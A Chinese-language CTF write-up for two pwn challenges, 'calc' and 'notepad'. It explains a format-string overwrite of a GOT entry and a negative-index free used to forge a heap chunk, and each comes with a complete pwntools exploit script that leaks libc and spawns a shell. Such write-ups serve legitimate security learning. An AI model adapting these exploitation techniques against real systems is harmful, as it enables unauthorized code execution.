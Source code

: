 # calc
程序是个模拟计算器，然后是个递归调用  
玩了好久没找到漏洞点  
然后就一个一个玩，在+的函数中发现了一个很好玩的函数,0x400C86  
有一句:  
`*(_QWORD *)(a1 + 8 * (*(unsigned __int8 *)(a1 + 0x948) + 4LL)) = *(_QWORD *)(a1 + 0x938);`  
这个
测试了这个代码发现有漏洞  
比如输入`++++++1+2`  
中途会把1放在bss段的那个数据区,并且位置和它递归的层数有关，相当于一个index  
相当于是一个数据存放的中转区  
观察一下附近的数据，发现有个`result: %lld\n`  
发现是0x400FF6中的  
`return printf((const char *)(a1 + 0x120), *(_QWORD *)(a1 + 0x938));`  
构思了一下，如果我们的`+`号足够多，就可以更改这个字符串的内容  
然后打印的是结果，于是就可以构造类似于  
`printf("%s",got_addr)`  
`printf("%n",got_addr)`  
这种payload，只要结果是got的地址就行了  
感觉这题出的非常好玩  
下面是payload,改掉exit_got为one_gadget就行了:  

```python  
from pwn import *
import sys
if len(sys.argv) < 2:
	debug = True
else:
	debug = False

if debug:
	p = process("./calc")
	libc = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
	elf = ELF("./calc")
else:
	p = remote(sys.argv[1],sys.argv[2])
	libc = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
	elf = ELF("./calc")
	

def calcu(buf,conti = True):
	p.sendlineafter("Your input:\n",buf)

def conti(conti = True):
	if conti:
		p.sendafter("Y:N\n","Y")
	else:
		p.sendafter("Y:N\n","N")
	
def debugf():
	gdb.attach(p,"b *0x400920\nb printf")

def sendpayload(p1,write_addr):
	base = 0x6020c0
	target = 0x6021c0
	number = (target-base)/8
	payload = "-" * number
	res = 0
	while p1[:8] != "":
		par1 = u64(p1[:8].ljust(8,"\x00"))
		payload += str(par1) + "+"
		res += par1
		p1 = p1[8:]
	payload += str(write_addr - res)
	calcu(payload)

def change_exit():
	one_gadget = libc.address + 0xf1147
	log.success("one_gadget:"+hex(one_gadget))
	exit_got = elf.got["exit"]
	#debugf()
	for i in range(8):
		number = (one_gadget >> (i*8)) & 0xff
		if number == 0:
			payload = "%1$hhn"
		else:
			payload = "%{number}c%1$hhn".format(number=number)
		#payload = "%1c%1$n"
		sendpayload(payload,exit_got+i)
		if i != 7:
			conti()
		else:
			conti(False)

context.log_level = "debug"
context.terminal = ["tmux","splitw","-v"]
base = 0x6020c0
target = 0x6021c0
number = (target-base)/8
p1 = u64("%s".ljust(8,"\x00")) 
payload = "-"*number + str(p1) + "+" + str(elf.got["puts"]-p1)
calcu(payload)
#print p.recv(6)
puts_addr = u64(p.recvuntil("continue")[:6].ljust(8,"\x00"))
libc.address = puts_addr - libc.symbols["puts"]
log.success("libc_base:"+hex(libc.address))
conti()
change_exit()
p.interactive()
```

# notepad
这个题看了很久发现没有漏洞,没有UAF之类的  
secret算法中,因为是个密码学选手,QAQ  
大概看了秘钥长度为8,是个能加密解密的,肯定是块加密,DES没跑了  
简单调试验证了下是个DES  
因为第一天给过提示，`key maybe the key`  
猜想是不是因为加密造成了堆溢出之类的,发现没有(以为长度不为8的倍数会有问题，检查了半天发现做了padding,还是个PKCS5,tql)  
看了半天发现只有free的时候没有check index是否是负数  
联想`key maybe the key`,感觉是不是可以在KEY上伪造堆块头部，然后free掉，造成free任意地址堆块  
在调试的时候发现DES KEY存的很奇怪,下标故意加了个1,感觉了一下好像是用来存储标志的  
因为这个题存放的时候是chunk_addr,inuse,size  
所以最后一位放1,前面写地址就行了  
前面写地址的时候还得注意找末尾是\x00的地址,分配多个堆块找到\x00对应的bss_addr,好像是20左右,具体看payload  
然后free掉DES KEY位置的堆块,再 malloc 一个堆块  
就可以达到修改 globle_heap 中的堆块地址了  
改为got_addr,先leak再写入,free -> system,再free一个内容是"/bin/sh"的堆块,getshell  
利用代码如下:  
  
```python
from pwn import *
import sys
if len(sys.argv) < 2:
	debug = True
else:
	debug = False

if debug:
	p = process("./notepad")
	libc = ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
	elf = ELF("./notepad")
else:
	p = remote(sys.argv[1],sys.argv[2])
	libc = ELF("libc.so.6")
	elf = ELF("./notepad")

def add(size,content):
	p.sendlineafter(">> ","1")
	p.sendlineafter("Size: ",str(size))
	p.sendafter("Data: ",content)

def edit(index,size,content):
	p.sendlineafter(">> ","2")
	p.sendlineafter("Index: ",str(index))
	p.sendlineafter("Size: ",str(size))
	p.sendafter("Data: ",content)

def show(index):
	p.sendlineafter(">> ","3")
	p.sendlineafter("Index: ",str(index))

def free(index):
	p.sendlineafter(">> ","4")
	p.sendlineafter("Index: ",str(index))

def set_key(key):
	p.sendlineafter(">> ","5")
	p.sendlineafter(">> ","1")
	p.sendafter("Key: ",key)

def encrypt(index):
	p.sendlineafter(">> ","5")
	p.sendlineafter(">> ","2")
	p.sendlineafter("Index: ",str(index))
	
def decrypt(index):
	p.sendlineafter(">> ","5")
	p.sendlineafter(">> ","3")
	p.sendlineafter("Index: ",str(index))
	
def debugf():
	gdb.attach(p,"b *0x0000000000402077\nb free\nb *0x402471")

context.log_level = "debug"
context.terminal = ["tmux","splitw","-v"]
size = 0x61
for i in range(20):
	add(size,(chr(ord("a")+i))*size)
set_key("\x50\x60".ljust(7,"\x00")+"\x01")
target = 0x6040E0
ori = 0x604E80
index = -151 + 5
debugf()
#print index
free(index)
add(size-0x10,"a"*(size-0x10))
payload = p64(elf.got["puts"]) + p64(1) + p64(0x51)
#debugf()
edit(20,len(payload),payload)
show(16)
puts_addr = u64(p.recv(6).ljust(8,"\x00"))
libc.address = puts_addr - libc.symbols["puts"]
log.success("libc_base:"+hex(libc.address))
payload = p64(elf.got["free"]) + p64(1) + p64(0x51)
edit(20,len(payload),payload)
payload = p64(libc.symbols["system"])
edit(16,len(payload),payload)
edit(0,8,"/bin/sh\x00")
free(0)
p.interactive()
```